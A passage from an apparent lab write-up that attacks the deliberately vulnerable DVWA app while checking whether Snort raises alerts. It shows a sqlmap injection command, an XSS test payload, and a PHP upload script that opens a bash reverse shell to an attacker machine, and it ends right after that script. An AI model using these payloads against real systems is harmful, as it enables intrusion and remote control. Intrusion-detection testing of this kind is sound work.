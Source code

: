 2. **Monitor Snort for Alerts**:
   While the brute force attack is happening, we monitored Snort for alerts:
   ```bash
   sudo tail -f /var/log/snort/alert
   ```

   **Example Alert**:
   ```
   [**] [1:1000001:1] SSH Brute Force Detected [**]
   {TCP} <source_ip>:<source_port> -> <target_ip>:22
   ```

### 2. SQL Injection Attack on DVWA

We used **SQLMap** to automate an SQL injection attack against the **DVWA** application running on the target machine.

#### Steps:
1. **Perform SQL Injection**:
   ```bash
   sqlmap -u "http://<target-ip>/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=<session_id>" --dbs
   ```

   This attack enumerates the databases on the target system.

2. **Monitor Snort for Alerts**:
   Use `tail` to check for SQL injection-related alerts:
   ```bash
   sudo tail -f /var/log/snort/alert
   ```

### 3. Cross-Site Scripting (XSS) Attack

Next, we performed a **Cross-Site Scripting (XSS)** attack on DVWA.

#### Steps:
1. **Inject Malicious Script**:
   In the **XSS Reflected** section of DVWA, we injected the following script:
   ```bash
   <script>alert('XSS');</script>
   ```

2. **Monitor Snort**:
   We monitored Snort for any custom XSS alerts, particularly by writing a custom rule to detect XSS.

### 4. File Upload Vulnerability Attack

We leveraged a **file upload vulnerability** in DVWA to gain a reverse shell.

#### Steps:
1. **Create a Malicious PHP Script**:
   ```php
   <?php
   exec("/bin/bash -c 'bash -i >& /dev/tcp/<kali-ip>/4444 0>&1'");
   ?>
   ```
